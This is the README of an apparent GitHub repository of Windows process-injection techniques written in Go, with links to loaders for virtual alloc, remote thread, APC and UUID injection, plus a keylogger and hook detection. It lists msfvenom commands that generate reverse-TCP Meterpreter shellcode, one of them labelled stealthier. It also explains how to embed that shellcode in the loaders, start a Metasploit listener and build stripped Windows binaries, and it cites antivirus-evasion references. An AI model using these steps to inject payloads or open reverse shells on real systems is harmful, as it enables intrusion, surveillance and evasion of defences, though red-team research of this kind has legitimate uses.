 # go-inject

Process injection techniques written in Go. I've also expanded this repo to include some general offense techniques in Go.

## Examples

Process Injection

* [Classic virtual alloc](examples/x64/valloc/valloc.go)
* [Heap](examples/x64/heap/heap.go)
* [Remote Thread Injection](examples/x64/remote-thread/remote_thread.go)
* [APC Queue Code Injection](examples/x64/queue-user-apc/queue.go)
* [UUID Injection - Used by Lazarus 2021](examples/x64/uuid/uuid.go)

Other offensive techniques:

* [Hook detection](examples/x64/detect-hooks/detect-hooks.go)
* [Keylogger](examples/x64/keylog/keylog.go)

## Usage

Use msfvenom to generate shellcode:
```bash
# Option 1: Testing with calculator.
msfvenom -p windows/x64/exec CMD=calc.exe -f hex

# Option 2: Reverse tcp stager.
msfvenom -p windows/x64/meterpreter/reverse_tcp -f hex -o rev.hex LHOST=127.0.0.1 LPORT=4444

# Option 3: Stageless payload - stealthier.
msfvenom -p windows/x64/meterpreter_reverse_tcp -f hex -o rev.hex LHOST=127.0.0.1 LPORT=4444
```

Place payload string from above command within one of the example .go files replacing the content of the `payload` variable. If using uuid example, use [shellcode-to-uuids](helpers/shellcode-to-uuids.go) to convert to payload.

Start listener:

```bash
use payload/windows/x64/meterpreter/reverse_tcp
set LHOST 127.0.0.1
set LPORT 4444
to_handler
```

## Build Examples

Linux:
```bash
env GOOS=windows go build -ldflags="-s -w" -trimpath examples/x64/uuid/uuid.go
```

## References

* https://blog.sunggwanchoi.com/eng-uuid-shellcode-execution/
* https://github.com/Adepts-Of-0xCC/VBA-macro-experiments/blob/main/EDRHookDetector.vba
* https://github.com/brimstone/go-shellcode
* https://github.com/sysdream/hershell
* https://github.com/yoda66/MalwareDevTalk
* https://labs.jumpsec.com/2019/06/20/bypassing-antivirus-with-golang-gopher-it/
* https://medium.com/@justen.walker/breaking-all-the-rules-using-go-to-call-windows-api-2cbfd8c79724
* https://posts.specterops.io/adventures-in-dynamic-evasion-1fe0bac57aa
* https://research.nccgroup.com/2021/01/23/rift-analysing-a-lazarus-shellcode-execution-method/
* https://www.ired.team/offensive-security/code-injection-process-injection/apc-queue-code-injection
* https://github.com/abdullah2993/go-runpe